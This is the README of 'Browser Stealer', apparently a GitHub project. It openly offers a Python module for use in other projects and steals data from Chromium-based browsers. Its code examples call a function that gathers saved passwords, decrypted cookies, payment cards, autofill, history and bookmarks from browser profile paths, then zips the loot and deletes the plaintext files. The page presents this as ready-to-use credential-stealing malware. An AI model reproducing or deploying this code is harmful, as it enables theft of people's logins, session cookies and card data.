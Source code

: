 <h1 align="center">Browser Stealer<h1>

<p align="center">
  <img src="https://img.shields.io/github/languages/top/Josakko/browser_stealer" </a>
  <img src="https://img.shields.io/github/last-commit/Josakko/browser_stealer" </a>
  <img src="https://img.shields.io/github/stars/Josakko/browser_stealer" </a>
  <img src="https://img.shields.io/github/forks/Josakko/browser_stealer" </a>
</p>

<h4 align="center">
  <span style="color: #fff; font-weight: bold;">Browser Stealer</span>
  <span style="color: #fff; font-weight: normal;">v1.2.0</span>
</h4>

```
pip install browser_stealer
```

## Installation

Since module got removed from pypi you have to install it manually, to install it download `.whl` file (`browser_stealer-<version>-py3-none-any.whl`) from [here](https://github.com/Josakko/browser_stealer/releases), next open terminal on the location where you downloaded `browser_stealer-<version>-py3-none-any.whl` and run following command:
- *IMPORTANT* - Do not rename the downloaded file, that might prevent you from installing the module
  
```
pip install browser_stealer-<version>-py3-none-any.whl
```

After running the command you can import and use browser stealer in your own projects!

## Code Examples

Simple example for stealing data from profile "Default" of browsers: Chromium, Chrome, Opera, Opera GX, Brave, Edge
```py
import browser_stealer

browser_stealer.run()
```

Or if you want to add your own chromium based browser or other profiles for existing ones:

```py
import browser_stealer


def MyBrowser():
    fetch_passwords(os.path.join(os.environ["USERPROFILE"], r"AppData\Local\%FOLDER%\%FOLDER%\User Data\Default\Login Data"), os.path.join(os.environ["USERPROFILE"], r"AppData\Local\%FOLDER%\%FOLDER%\User Data\Local State"))
    decrypt_fetch_cookies(os.path.join(os.environ["USERPROFILE"], r"AppData\Local\%FOLDER%\%FOLDER%\User Data\Default\Network\Cookies"), os.path.join(os.environ["USERPROFILE"], r"AppData\Local\%FOLDER%\%FOLDER%\User Data\Local State"))
    fetch_cookies(os.path.join(os.environ["USERPROFILE"], r"AppData\Local\%FOLDER%\%FOLDER%\User Data\Default\Network\Cookies"))
    fetch_history(os.path.join(os.environ["USERPROFILE"], r"AppData\Local\%FOLDER%\%FOLDER%\User Data\Default\History"))
    fetch_downloads(os.path.join(os.environ["USERPROFILE"], r"AppData\Local\%FOLDER%\%FOLDER%\User Data\Default\History"))
    fetch_bookmarks(os.path.join(os.environ["USERPROFILE"], r"AppData\Local\%FOLDER%\%FOLDER%\User Data\Default\Bookmarks"))
    fetch_payment(os.path.join(os.environ["USERPROFILE"], r"AppData\Local\%FOLDER%\%FOLDER%\User Data\Default\Web Data"), os.path.join(os.environ["USERPROFILE"], r"AppData\Local\%FOLDER%\%FOLDER%\User Data\Local State"))
    fetch_autofill(os.path.join(os.environ["USERPROFILE"], r"AppData\Local\%FOLDER%\%FOLDER%\User Data\Default\Web Data"))

    u.zip("MyBrowser.zip", ["autofill.txt", "cards.txt", "bookmarks.txt", "downloads.txt", "history.txt", "passwords.txt", "decrypted-cookies.txt", "cookies.txt"])
    u.delete_files(["autofill.txt", "cards.txt", "bookmarks.txt", "downloads.txt", "history.txt", "passwords.txt", "decrypted-cookies.txt", "cookies.txt"])

MyBrowser()
```

In this example you have to replace `%FOLDER%\%FOLDER%` with one for your specific browser, so for example for chrome you would use `Google\Chrome`, and also replace `%PROFILE%` whit profile you want to target so for example you could replace it with `Default` if you want to target Default profile

## Need Help?

If you need help contact me on my [discord server](https:\\discord.gg\xgET5epJE6) or create [issue](https:\\github.com\Josakko\DiscordReverseShell\issues).

## Contributors

Big thanks to all of the amazing people (only me) who have helped by contributing to this project!
